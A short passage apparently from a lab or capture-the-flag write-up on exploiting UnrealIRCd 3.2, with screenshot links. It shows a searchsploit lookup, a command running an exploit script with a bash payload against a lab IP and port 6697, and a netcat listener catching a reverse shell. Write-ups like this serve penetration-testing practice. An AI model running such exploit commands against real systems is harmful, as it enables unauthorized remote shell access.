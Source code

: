 ![](./IMG/8.png)


## Exploit 

- Search Exploit Code 

```
searchsploit -e "UnrealIRCd 3.2"
```

![](./IMG/9.png)
- Search payload from Github

```
python3 exploit.py -payload bash 10.129.228.147 6697
```
- Check nc Listener, the it will get the reverse shell
